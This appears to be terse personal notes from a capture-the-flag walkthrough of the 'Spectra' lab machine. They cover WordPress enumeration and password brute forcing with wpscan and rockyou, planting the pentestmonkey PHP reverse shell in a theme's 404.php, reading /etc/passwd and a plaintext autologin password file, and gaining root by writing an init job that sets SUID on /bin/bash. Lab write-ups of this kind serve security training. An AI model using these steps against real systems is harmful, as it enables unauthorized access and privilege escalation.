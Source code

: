 # Spectra

> /etc/hosts spectra.htb

**Port 80** 

1. Jira
``` bash 
curl -s 10.10.10.229 | grep -i "jira" 1>/dev/null && echo "OK"
```

2. WordPress 
``` bash 
curl -s http://spectra.htb/main/ | grep -i "wordpress" 1>/dev/null && echo "OK"
wpscan --url http://spectra.htb/main/ -e u
wpscan --url http://spectra.htb/main/ 
wpscan --url http://spectra.htb/main --passwords ~/Downloads/rockyou.txt --usernames user -t 50
```

3. dir
``` bash
wfuzz -c -z file,/opt/node-dirbuster/lists/directory-list-2.3-medium.txt --hc 404 http://spectra.htb/FUZZ
```

> USERS
```
user : user (wp)
user: user (db)
```

### dir
```
main
wp
testing 
index-of
files 
wp-admin/                                          
wp-content/                                       
wp-includes/                                       
index.php                                          
license.txt                                        
readme.html                                        
wp-activate.php                                    
wp-blog-header.php                                 
wp-comments-post.php                               
wp-config.php                                      
wp-config.php.save
wp-cron.php                                        
wp-links-opml.php                                  
wp-load.php                                        
wp-login.php                                       
wp-mail.php                                        
wp-settings.php                                    
wp-signup.php                                    
wp-trackback.php                                   
xmlrpc.php 
```

**PORT 22** 

> failed access with users


**PORT 3306** 


1. reverse shell - https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
2. http://spectra.htb/main/wp-content/themes/twentyseventeen/404.php


> connect with user no db, failed 

```
root:x:0:0:root:/root:/bin/bash
chronos:x:1000:1000:system_user:/home/chronos/user:/bin/bash
nginx:x:20155:20156::/home/nginx:/bin/bash
katie:x:20156:20157::/home/katie:/bin/bash
```



> cat /etc/issue
```
Developer Console
To return to the browser, press:

  [ Ctrl ] and [ Alt ] and [ <- ]  (F1)

To use this console, developer mode must be enabled.
Doing so will destroy any saved data on the system.

In developer mode, it is possible to
- login and sudo as user 'chronos'
- require a password for sudo and login(*)
- disable power management behavior (screen dimming):
  sudo initctl stop powerd
- install your own operating system image!

* To set a password for 'chronos', run the following as root:

chromeos-setdevpasswd

If you are having trouble booting a self-signed kernel, you may need to
enable USB booting.  To do so, run the following as root:

enable_dev_usb_boot

Have fun and send patches!
```

**LinPeas**

```bash
cat /etc/autologin/passwd
```

1. user:user
2. grupos? 
	1. developer
3. sudo?
	1. NOPASSWD(initctl)

```bash
sudo -u root /sbin/initctl list
vim /etc/init/test.conf 
script 
	chmod +s /bin/bash
end script
```


